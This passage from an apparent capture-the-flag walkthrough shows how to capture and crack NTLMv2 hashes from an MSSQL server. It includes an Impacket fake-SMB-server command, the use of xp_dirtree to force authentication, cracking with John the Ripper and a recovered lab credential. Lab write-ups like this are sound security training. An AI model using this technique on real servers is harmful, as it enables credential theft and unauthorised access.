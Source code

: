 
{% include image.html image_alt="f85cb877.png" image_src="/e1663bb9-4e33-4561-9d7a-b6e71d56f1c4/f85cb877.png" %}


Awesome.

### Undocumented Stored Procedure - `xp_dirtree`

Now that we have access to a MSSQL shell so to speak, we can execute `xp_dirtree` to exfiltrate NTLM hashes. But first, we need to set up a fake SMB server.

Impacket provides an excellent SMB server right off the box. Let's run that.

```
# impacket-smbserver deep /root/Downloads/querier -smb2support
```

You would want to enable SMB2 support. Remember your nmap scan?

```
ost script results:
| ms-sql-info:
|   10.10.10.125:1433:
|     Version:
|       name: Microsoft SQL Server
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server
|_    TCP port: 1433
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-02-24 08:18:51
|_  start_date: N/A
```

Execute `xp_dirtree`.


{% include image.html image_alt="499f86f6.png" image_src="/e1663bb9-4e33-4561-9d7a-b6e71d56f1c4/499f86f6.png" %}


You should see the SMB requests in like this.


{% include image.html image_alt="44587811.png" image_src="/e1663bb9-4e33-4561-9d7a-b6e71d56f1c4/44587811.png" %}


That's the NTLMv2 hash we've been waiting for! Copy the entire string in red and send it to John the Ripper for cracking.


{% include image.html image_alt="8eb08950.png" image_src="/e1663bb9-4e33-4561-9d7a-b6e71d56f1c4/8eb08950.png" %}


Armed with the credential (`mssql-svc:corporate568`), let's see what if log in to the SQL server.

